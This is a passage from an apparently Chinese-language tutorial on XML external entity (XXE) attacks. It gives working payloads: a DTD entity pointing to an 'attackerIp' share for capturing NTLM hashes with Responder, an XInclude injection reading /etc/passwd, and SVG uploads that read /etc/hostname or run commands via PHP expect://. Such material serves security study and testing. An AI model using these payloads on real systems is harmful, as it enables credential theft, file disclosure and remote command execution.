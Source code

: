 #### Quadratic Blowup Attack

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/assets%252F-L_2uGJGU7AVNRcqRvEi%252F-MbWEdJKBVabaZIn44QL%252F-MbWp86h82tU7WRPbY0V%252Fimage.png)

#### 获取 NTML

在Windows主机上，可以通过设置响应程序来获取web服务器用户的NTML哈希。py处理程序：

```bash
Responder.py -I eth0 -v
```

然后发送以下请求：

```xml-dtd
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```

接着便可以尝试使用 hashcat 破解哈希

### Hidden XXE Surfaces

#### XInclude

一些应用程序接收客户端提交的数据，在服务器端将其嵌入到XML文档中，然后解析该文档。当客户端提交的数据被放置到后端SOAP请求中，然后由后端SOAP服务处理时，就会出现这种情况。

在这种情况下，你不能进行经典的XXE攻击，因为您无法控制整个XML文档，因此无法定义或修改DOCTYPE元素。但是，或许可以改用XInclude。XInclude是XML规范的一部分，它允许从子文档构建XML文档。您可以在XML文档中的任何数据值中进行XInclude攻击，因此，在只控制放入服务器端XML文档中的单个数据项的情况下，可以执行攻击。

要执行XInclude攻击，您需要引用XInclute命名空间并提供要包含的文件的路径。例如：

```xml-dtd
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

#### SVG - File Upload

一些应用程序允许用户上传文件，然后在服务器端进行处理。一些常见的文件格式使用XML或包含XML子组件。基于XML的格式有DOCX等办公文档格式和SVG等图像格式。

例如，应用程序可能允许用户上传图像，并在上传后在服务器上处理或验证这些图像。即使应用程序希望接收PNG或JPEG等格式，正在使用的图像处理库也可能支持SVG图像。由于SVG格式使用XML，所以攻击者可以提交恶意SVG图像，从而进行XXE攻击。

```xml-dtd
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```

您还可以尝试使用PHP “expect”包装器执行命令：

```html
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
